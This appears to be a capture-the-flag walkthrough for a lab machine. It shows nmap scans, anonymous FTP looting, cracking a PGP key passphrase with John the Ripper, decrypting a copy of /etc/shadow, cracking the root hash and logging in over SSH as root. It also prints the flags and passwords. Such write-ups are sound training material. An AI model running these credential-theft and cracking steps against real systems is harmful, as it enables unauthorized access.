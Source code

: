 

---

# VSFTPD & PGP Key Escalation — CTF Walkthrough

## 🔎 Enumeration

First, we scan the target:

```bash
nmap -sV 10.10.128.22
```

**Results:**

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

FTP is open → check for anonymous login:

```bash
nmap -p21 --script ftp-anon 10.10.128.22
```

✅ **Anonymous login allowed**. We get full access to the filesystem.

---

## 📂 Looting FTP

Navigate to `/home/melodias`:

```bash
ftp> cd /home/melodias
ftp> ls -la
```

Found:

* `user.txt` 606083fd33beb1284fc51f411a706af8
* `.wget-hsts` referencing GitHub Gist
* interesting directories `/tmp` and `/notread`

Check `/notread`:

```bash
ftp> cd /notread
ftp> ls -la
```

Found:

* `backup.pgp`
* `private.asc`

Downloaded both:

```bash
ftp> get private.asc
ftp> get backup.pgp
```

---

## 🔑 Cracking the PGP Key

Import the private key:

```bash
gpg --import private.asc
```

It’s protected with a passphrase. Extract hash for cracking:

```bash
gpg2john private.asc > keyhash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt keyhash.txt
```

**Cracked passphrase:** `xbox360`

---

## 🔓 Decrypting Backup

Now decrypt the backup:

```bash
gpg --decrypt backup.pgp > shadow
```

This revealed `/etc/shadow` contents including `root` and `melodias`.

---

## 💥 Cracking Hashes

Save the hashes to `hashes.txt` and run:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Result:**

* root → `hikari`

---

## 🛠️ Exploitation

SSH into the box as root:

```bash
ssh root@10.10.128.22
```

Password: `hikari`

Verify:

```bash
whoami
# root
```

---

## 🎯 Flags

* **User Flag:** `user.txt` in `/home/melodias`
* **Root Flag:**

```bash
cat /root/root.txt
f706456440c7af4187810c31c6cebdce
```

---

## 📝 Summary

1. Anonymous FTP → browse filesystem
2. Found PGP key & encrypted backup
3. Cracked passphrase (`xbox360`) with `john`
4. Decrypted backup → obtained `/etc/shadow`
5. Cracked root hash (`hikari`)
6. SSH root access → captured flags

💀 **Full system compromise achieved.**
